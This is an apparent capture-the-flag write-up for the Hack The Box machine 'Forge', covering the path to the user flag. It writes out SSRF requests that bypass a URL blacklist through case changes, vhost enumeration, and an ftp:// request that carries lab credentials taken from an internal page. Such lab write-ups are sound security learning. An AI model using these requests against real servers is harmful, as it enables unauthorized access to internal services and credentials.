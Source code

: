 ## Info
### Credential
 User | Password           | Service | Note
------|--------------------|---------|------
user  |heightofsecurity123!|         |

## Path
### User
1. Got redirected to `forge.htb`, so added that to `/etc/hosts`.
2. When requesting a URL that doesn't serve http service, it showed the following error. From the error message, we could assume the backend was running python.
```
An error occured! Error : HTTPConnectionPool(host='10.10.17.87', port=80): Max retries exceeded with url: /index.html (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f4cdca7f730>: Failed to establish a new connection: [Errno 111] Connection refused'))
```
3. By using uppercase, I bypassed the blacklist of the URL and could request to the local of the host. Since the FTP got filtered on `nmap`, I tried and found FTP was running locally.
```
$ curl http://forge.htb/upload -X POST -d 'url=http://ForGe.HTB:21/&remote=0'
<strong>An error occured! Error : (&#39;Connection aborted.&#39;, BadStatusLine(&#34;220 Forge&#39;s internal ftp server\r\n&#34;))</strong>
```
4. After testing, the upload page seemed cannot do much, so I turned back to do more enumeration. And I found the subdomain `admin.forge.htb`.
```
$ gobuster vhost -u http://forge.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -o vhost.gobuster
$ grep -v 302 vhost.gobuster
Found: admin.forge.htb (Status: 200) [Size: 27]
```
5. When visiting `admin.forge.htb`, it said `Only localhost is allowed!`. We could reach it using step 3 method. The script `ssrf.py` showed the result.
```
[path]> /
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
``` 
6. Visiting `/announcements` through SSRF, it gave us the credential of the FTP server.
```
[path]> /announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
```
7. Followed the instruction in `/announcements`, I requested to the internal FTP server and got the user flag.
```
[path]> http://admin.foRge.Htb/upload?u=ftp://user:heightofsecurity123!@Forge.Htb/
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 11 21:36 user.txt
```



